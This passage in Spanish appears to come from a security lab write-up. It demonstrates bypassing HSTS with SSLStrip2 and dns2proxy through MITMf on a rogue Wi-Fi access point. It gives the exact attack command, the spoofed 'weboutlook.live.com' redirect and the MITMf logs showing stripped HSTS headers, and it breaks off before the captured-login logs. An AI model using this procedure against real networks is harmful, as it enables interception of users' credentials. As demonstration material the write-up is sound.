 Eliminando HSTS con SSLStrip2 y dns2proxy

Para resolver este problema que tenemos con el header HSTS, vamos a utilizar la nueva versión de SSLStrip, llamada SSLStrip2 o SSLStrip+, en conjunto con dns2proxy. Estos nos permitirán quitar todo header HSTS que se pueda aparecer en los headers de las conexiones (SSLStrip2) y nos redireccionarán a un dominio falso que se haga pasar por el verdadero pero que funcione sobre HTTP para poder capturar el tráfico (dns2proxy). Para realizar esto configuramos que el domino outlook.live.com que nos permite ingresar a nuestras cuentas de outlook o hotmail personales, sea redirigido a weboutlook.live.com. 

Pusimos a correr nuestro rogue AP, desactivamos el dns que nos provee dnsmasq, y luego pusimos a correr MitMf con las opciones de hsts (SSLStrip2) y dns (dns2proxy) de la siguiente manera:

python mitmf.py -i wlan0 --hsts --dns

Luego, conectamos nuestro dispositivo de prueba al AP e intentamos acceder a outlook.com y estos fue lo que logueo mitmf:

2017-11-25 17:29:20 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.com
2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'wwww.outlook.com' to 'www.outlook.com' for HSTS bypass
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] www.outlook.com
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'weboutlook.live.com' to 'outlook.live.com' for HSTS bypass
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.live.com
2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header

Como se puede ver, mitmf capturo los requests a outlook.live.com y lo termino redirigiendo a weboutlook.live.com el cual mantiene una conexión del tipo HTTP pero se muestra como si fuera la página original para el usuario del dispositivo, y todos los requests que hagamos desde este dominio dns2proxy los forwardea al dominio original para que la navegación y el comportamiento del sitio parezca real. 

Paso siguiente, nos intentamos loguear al sitio poniendo nuestro email y un password erróneo para mostrar únicamente como capturamos el tráfico. A continuación se pueden ver los logs:

